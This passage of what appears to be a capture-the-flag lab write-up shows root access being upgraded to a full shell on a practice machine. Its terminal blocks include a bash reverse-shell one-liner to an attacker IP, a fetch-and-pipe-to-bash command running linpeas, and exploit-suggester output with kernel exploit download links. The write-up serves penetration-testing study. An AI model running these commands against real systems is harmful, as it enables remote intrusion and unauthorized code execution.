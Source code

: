 It fails again. So, I think I need to spawn a normal shell.

### Spawn a reverse shell again

Let's use the same `/bin/bash`file to open a valid reverse shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 52068
id
uid=0(root) gid=0(root) groups=0(root)
[object Object]/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.14/9001 0>&1"
```

Then, let's wait on a new listener.

```bash
┌──(kali㉿kali)-[/usr/share/peass/linpeas]
└─$ nc -nlvp 9001                      
listening on [any] 9001 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 40392
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@nodered:/node-red# id
id
uid=0(root) gid=0(root) groups=0(root)
root@nodered:/node-red# echo $SHELL
echo $SHELL
/bin/bash
root@nodered:/node-red# 
```


# Shell as `???`

### Enumeration again

At this time, I expect `linpeas` to work with valid shell.

```bash
root@nodered:/node-red# cat < /dev/tcp/10.10.14.14/8000 | bash

<SNIP>

  YOU ARE ALREADY ROOT!!! (it could take longer to complete execution)

╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                         
[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)                       

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
```